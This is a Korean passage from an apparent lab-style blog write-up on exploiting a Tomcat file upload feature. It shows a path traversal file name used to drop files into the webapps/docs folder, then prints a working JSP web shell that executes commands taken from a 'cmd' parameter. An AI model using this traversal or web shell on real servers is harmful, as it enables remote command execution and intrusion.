 ## 파일 업로드 위치
- 예측을 통해 업로드 위치를 알 수 있었다.

```
apache-tomcat-10.1.9/
├── webapps
└── 업로드 폴더    
    └── 게시글 구분 
		└── 업로드 파일
```

- webapps 의 ROOT 폴더에 넣어도 링크를 통해 바로 업로드한 파일로 접근이 안된다.<br>![Pasted image 20230606191318](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/af22a868-5681-40f3-8ece-461180d7a863)<br>![Pasted image 20230606191326](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/640b1f30-d8e5-4387-94b8-a8e9be30991e)<br>![Pasted image 20230606191344](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/732aa0f9-ddad-4de7-8a74-1b953c7e5f70)

- tomcat 을 다운받았을 때 webapps 에 디펄트로 존재하는 폴더를 이용해 보았다.<br>![Pasted image 20230606191728](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/fd1fe366-8e57-4acb-a59e-9ed0f4d12755)<br>![Pasted image 20230606192006](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/87f5322d-9929-43aa-9087-73f11a27ec8e)
- ROOT 폴더가 아닌 docs 폴더에 업로드 파일 넣기 성공.<br>![Pasted image 20230606192124](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/60be46c1-b391-4db9-affa-5341e173449e)<br>![Pasted image 20230606191326](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/62374466-f5ad-4cf2-b1aa-dd1faecbeba6)
- 링크를 통해 업로드한 파일에 접근을 성공하였다.<br>![Pasted image 20230606192419](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/cf906ee9-78f1-40ba-807a-e58642ed14cd)

```
http://221.27.0.6/docs/minqtest.png
```

### 최종 파일 이름

- 업로드 파일 이름<br> `../../webapps/docs/파일이름`

## 공격 시작

### 웹 쉘 업로드 하기 ( 바인드 쉘 )

#### JSP 웹 쉘
- 웹 쉘을 올려 공격자가 실행시킬 수 있는지 확인한다.

```jsp
<%@ page import="java.io.*" %>
<%
try {
	Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
	InputStream in = p.getInputStream();
	int c;
	while((c=in.read())!=-1){
		out.print((char)c);
	}
	in.close();
	try {
		p.waitFor();
	}catch(Exception e){
		out.println(e.getMessage());
	}
}catch(Exception e){
	out.println(e.getMessage());
}
%>
```
